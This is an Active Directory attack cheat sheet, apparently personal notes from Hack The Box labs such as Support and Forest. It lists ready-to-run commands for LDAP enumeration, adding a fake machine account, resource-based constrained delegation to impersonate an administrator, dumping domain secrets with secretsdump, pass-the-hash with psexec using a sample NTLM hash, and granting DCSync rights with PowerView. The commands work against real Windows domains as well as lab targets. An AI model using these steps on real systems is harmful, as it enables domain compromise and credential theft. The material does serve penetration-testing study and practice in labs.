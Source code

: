 ### ldapsearch to get object in a directory 
`ldapsearch -x -h 10.10.10.175 -s base namingcontexts`
        -x - simple auth
        -h 10.10.10.175 - host to query
        -s base - set the scope to base
        naming contexts - return naming contexts

`ldapsearch -x -h 10.10.10.175 -b 'DC=EGOTISTICAL-BANK,DC=LOCAL'` 
`ldapsearch -H ldap://<ip>:<port> -x -LLL -s sub -b "DC=<domain>,DC=local"` 

### Dump AD Users properties Powerview (w/ shell)
`get-aduser -filter * -properties *` 

### Use Powermad.ps1 to add new machine account 
`New-MachineAccount -MachineAccount MYFAKECOMPUTER -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose` 

### Set PrincipalsAllowedToDelegateToAccount property on a host
`Set-ADComputer $host -PrincipalsAllowedToDelegateToAccount MYFAKECOMPUTER$`

### Confirm the PrincipalsAllowedToDelegateToAccount property is changed  
`Get-ADComputer $host -Properties PrincipalsAllowedToDelegateToAccount`

### Search for computers with PrincipalsAllowedToDelegateToAccount set 
`Get-DomainComputer | Where-Object {$_."msDs-AllowedToActOnBehalfofOtherIdentity" -ne $null}` 

### Get kerberos ticket via computer with ability to impersonate via PrincipalsAllowedToDelegateToAccount
`getST.py -spn cifs/dc.support.htb -impersonate administrator support/MYFAKECOMPUTER$` 

### export kerberos ticket in Kali
`export KRB5CCNAME=~/administrator.ccache` 

### use rbcd.py to create delegation to DC$ 
`rbcd.py -delegate-to DC$ -dc-ip 10.10.11.174 -action read support/MYFAKECOMPUTER$:123456` 

### secretsdump.py with kerberos 
`secretsdump.py -k -no-pass dc.support.htb` 

### psexec.py with hash example 
`psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:bb06cbc02b39abeddd1335bc30b19e26 Administrator@10.10.11.174` 

### Use Powerview to Add User to a group, create a credential, then add that to DCSync rights
(Solution to HTB Forest)[https://0xdf.gitlab.io/2020/03/21/htb-forest.html]
`Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco; $username = "htb\svc-alfresco"; $password = "s3rvice"; $secstr = New-Object -TypeName System.Security.SecureString; $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}; $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr; Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync` 
